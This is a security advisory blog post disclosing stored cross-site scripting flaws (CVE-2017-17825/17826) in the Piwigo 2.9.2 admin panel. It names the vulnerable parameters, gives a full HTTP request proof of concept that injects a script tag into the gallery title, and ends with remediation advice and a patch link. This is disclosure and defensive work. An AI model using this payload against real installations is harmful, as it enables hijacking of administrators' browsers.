 ```yaml
---
layout: post
title: CVE-2017-17825 Multiple Stored XSS Vulnerabilities in Piwigo 2.9.2
tag: advisory
excerpt_separator: <!--more-->

---
```


It was identified that admin panel of Piwigo application is vulnerable to multiple [Persistent Cross Site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29) vulnerabilities. An attacker can exploit these vulnerabilities to hijack client's browser along with the data stored in it.  
<!--more-->

### Affected Version : <=2.9.2

### Vulnerable Instances:

- /admin.php?page=batch_manager&mode=unit, **[POST] tags-[] [CVE-2017-17825]**
- /admin.php?page=configuration&section=main, **[POST] gallery_title [CVE-2017-17826]**



### Proof of Concept:

Configuration *component*

**REQUEST**

```markdown
POST /piwigo-2.9.2/piwigo/admin.php?page=configuration&section=main HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost/piwigo-2.9.2/piwigo/admin.php?page=configuration
Content-Type: application/x-www-form-urlencoded
Content-Length: 310
Cookie: pwg_id=ljmb7f4h6rsrdkv9bgotsl9ja3;
Connection: close
Upgrade-Insecure-Requests: 1

gallery_title=`</title><script>alert(document.domain)</script>`&page_banner=test+banner&order_by%5B%5D=date_available+DESC&order_by%5B%5D=file+ASC&order_by%5B%5D=id+ASC&rate_anonymous=on&allow_user_registration=on&allow_user_customization=on&week_starts_on=monday&history_guest=on&log=on&mail_theme=clear&submit=
```

**RESPONSE**

![stored xss](/assets/images/piwigo2.9.2/2.png)

### Remediation:

As the application make use of MVC architecture, it is recommended to implement a middleware or centralized controller that uses **[Context Specific Filtering](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet])** which sanitizes user input before printing it to user.

### Vendor Patches:

The patch released by vendor for this issue can be found [here](https://github.com/Piwigo/Piwigo/commit/c3b4c6f7f0ddeaea492080fb8211d7b4cfedaf6f)
